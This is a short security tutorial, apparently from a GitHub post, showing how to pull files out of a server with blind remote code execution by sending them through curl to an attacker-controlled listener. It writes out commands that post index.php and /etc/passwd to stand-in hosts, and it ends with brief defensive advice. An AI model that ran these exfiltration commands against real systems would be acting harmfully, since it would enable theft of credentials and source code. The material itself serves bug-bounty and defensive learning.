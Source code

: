 # Blind RCE File Exfiltration via `curl`
![Blind RCE File Exfiltration via curl - cybersecplayground](https://github.com/user-attachments/assets/13180932-3829-4771-900f-f6edad442587)

If you’ve landed a **Blind Remote Code Execution (RCE)** but can trigger outbound HTTP requests (**OOB — Out of Band**), you can steal files from the target server without direct output.

---

## 📌 Technique: Using `curl` with `-d @file`

When you run:
```bash
curl -d @index.php https://OOB_SERVER
```
- `-d @index.php` → Reads the entire file `index.php` and sends it in the HTTP request body.

The OOB server receives the full file contents, even if the RCE output is not directly visible.

---

## 📜 Example Exploit Flow

### 1. Control an OOB listener:
```bash
python3 -m http.server 8080
```
👉 Or use **Burp Collaborator** / **Interactsh**.

### 2. Trigger the Blind RCE on the target with:
```bash
curl -d @/etc/passwd https://your-server.com
```
The file contents are sent to your server in the POST request body.

---

## 🔥 Why This Works
- ⚡️ The `@` syntax in curl tells it to read a local file instead of sending raw text.
- ⚡️ Perfect for exfiltrating sensitive files (config files, source code, credentials) over HTTP in a single request.

---

## 🛡 Defense
- ✅ Restrict outbound HTTP requests from servers (**Egress filtering**).
- ✅ Disable `curl`, `wget`, and similar tools in restricted environments.
- ✅ Use Web Application Firewalls (**WAFs**) to detect suspicious HTTP patterns.

---

📢 Follow [@cybersecplayground](https://t.me/cybersecplayground) for more RCE & exfiltration tricks.

---

**Tags:** #RCE #BugBounty #curl #Exfiltration #Infosec #CyberSecurity
